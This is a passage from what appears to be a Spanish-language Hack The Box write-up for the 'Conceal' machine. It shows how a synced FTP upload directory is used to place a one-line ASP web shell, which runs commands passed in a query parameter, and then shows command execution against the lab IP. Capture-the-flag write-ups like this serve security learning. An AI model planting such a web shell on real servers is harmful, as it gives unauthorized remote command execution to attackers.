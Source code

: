 El directorio ```upload``` tiene capacidad de Directory Listing

<img src="/writeups/assets/img/Conceal-htb/4.png" alt="">

Está sincronizado con el FTP, por lo que puedo subir una web shell en ASPX para ganar acceso al sistema

Creo un archivo que permita ejecutar comandos a nivel de sistema, utilizando el oneliner de [HackingDream](https://www.hackingdream.net/2020/02/reverse-shell-cheat-sheet-for-penetration-testing-oscp.html)

```null
<%response.write CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.Readall()%>
```

```null
ftp> put shell.aspx
local: shell.aspx remote: shell.aspx
229 Entering Extended Passive Mode (|||49681|)
125 Data connection already open; Transfer starting.
100% |*******************************************************************************************************************************************************************|   400        2.27 MiB/s    00:00 ETA
226 Transfer complete.
```

Al intentar cargarlo, me aparece un error:

<img src="/writeups/assets/img/Conceal-htb/5.png" alt="">

Lo que hago es cambiar la extensión de ASPX a ASP

```null
curl -s -X GET '10.10.10.116/upload/shell.asp?cmd=whoami'
conceal\destitute
```
